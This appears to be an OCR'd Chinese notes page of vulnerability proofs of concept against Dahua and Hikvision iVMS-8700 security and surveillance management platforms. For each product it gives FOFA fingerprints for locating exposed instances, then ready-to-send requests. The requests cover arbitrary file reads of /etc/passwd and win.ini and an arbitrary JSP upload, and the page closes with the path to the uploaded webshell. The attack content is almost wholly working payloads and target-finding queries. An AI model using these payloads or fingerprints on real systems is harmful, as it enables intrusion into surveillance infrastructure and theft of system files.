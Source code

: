 ##### user_save.action 任意文件上传 ✅

漏洞指纹：

```
POST /admin/user_save.action
```

```
POST /WPMS/getPublicKey
```

#### 大华 城市安防监控系统平台管理 

FOFA：

```
"attachment_downloadByUrlAtt.action"
```

##### attachment_downloadByUrlAtt.action 任意文件下载 ✅

poc：

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

#### Hikvision iVMS-8700综合安防管理平台

FOFA：

```
icon_hash="-911494769"
```

##### 任意文件下载 ✅

验证POC，token 为 URL md5：

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

##### 任意文件上传 ✅

发送请求包上传文件：

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

访问webshell：

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

